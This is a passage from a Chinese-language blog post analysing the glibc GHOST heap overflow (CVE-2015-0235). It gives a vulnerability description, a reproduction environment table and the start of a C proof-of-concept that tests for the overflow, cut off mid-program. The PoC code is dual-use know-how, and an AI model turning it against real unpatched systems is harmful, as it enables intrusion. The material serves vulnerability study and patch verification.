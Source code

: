 ```yaml
---
layout: post
title:  "CVE-2015-0235 glibc __nss_hostname_digits_dots 堆溢出漏洞"
image: ''
date:   2018-01-25 00:06:31
tags:
- cve
- overflow
description: ''
categories:
- cve
---
```


- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
  - [Exim expolit](#exim-exploit)
- [参考资料](#参考资料)


## 漏洞描述
glibc 是 GNU 的 C 运行库，几乎所有 Linux 的其他运行库都依赖于它。该漏洞被称为 GHOST，发生的原因是函数 `__nss_hostname_digits_dots()` 存在缓冲区溢出，可以通过 `gethostbyname*()` 系列函数触发，最容易的攻击入口是邮件服务器，攻击者可以实施远程攻击甚至完全控制目标系统。受影响的版本从 glibc-2.2 到 glibc-2.17。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 12.04 | 体系结构：64 位 |
| 调试器 | gdb-peda| 版本号：7.4 |
| 漏洞软件 | glibc | 版本号：2.15 |
| 受影响软件 | Exim4 | 版本号：4.80 |

通过下面的 PoC 可以知道自己的系统是否受到影响：
```c
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
 
#define CANARY "in_the_coal_mine"
 
struct {
  char buffer[1024];
  char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };
 
int main(void) {
  struct hostent resbuf;
  struct hostent *result;
  int herrno;
  int retval;
 
  /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
  size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
  char name[sizeof(temp.buffer)];
  memset(name, '0', len);
```